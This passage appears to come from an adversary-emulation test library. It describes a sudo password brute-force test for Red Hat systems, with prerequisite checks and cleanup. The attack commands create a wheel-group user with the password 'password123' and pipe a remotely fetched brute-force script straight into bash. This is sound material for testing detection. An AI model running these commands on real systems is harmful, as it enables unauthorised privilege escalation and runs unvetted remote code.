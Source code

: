 ##### Get Prereq Commands:

```bash
apt update && apt install -y openssl sudo curl
```

<br/>
<br/>

## Atomic Test #6 - SUDO Brute Force - Redhat

An adversary may find themselves on a box (e.g. via ssh key auth, with no password) with a user that has sudo'ers privileges, but they do not know the users password. Normally, failed attempts to access root will not cause the root account to become locked, to prevent denial-of-service. This functionality enables an attacker to undertake a local brute force password guessing attack without locking out the root user.

This test creates the "art" user with a password of "password123", logs in, downloads and executes the sudo_bruteforce.sh which brute force guesses the password, then deletes the user

**Supported Platforms:** Linux

**auto_generated_guid:** 4097bc00-5eeb-4d56-aaf9-287d60351d95

#### Inputs:

| Name       | Description           | Type | Default Value                                                                                                 |
| ---------- | --------------------- | ---- | ------------------------------------------------------------------------------------------------------------- |
| remote_url | url of remote payload | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1110.001/src/sudo_bruteforce.sh |

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
useradd -G wheel -s /bin/bash -p $(openssl passwd -1 password123) art
su art
cd /tmp
curl -s #{remote_url} |bash
```

#### Cleanup Commands:

```bash
userdel -fr art
```

#### Dependencies: Run with `bash`!

##### Description: Check if running on a Redhat based machine.

##### Check Prereq Commands:

```bash
if grep -iq "rhel\|fedora\|centos" /usr/lib/os-release; then echo "RedHat"; else echo "NOT RedHat"; exit 1; fi
if grep -Rq "pam_faillock" /etc/pam.d/*; then echo "pam_faillock configured"; exit 1; fi
if [ -x "$(command -v openssl)" ]; then echo "openssl is installed"; else echo "openssl is NOT installed"; exit 1; fi
if [ -x "$(command -v sudo)" ]; then echo "sudo is installed"; else echo "sudo is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```
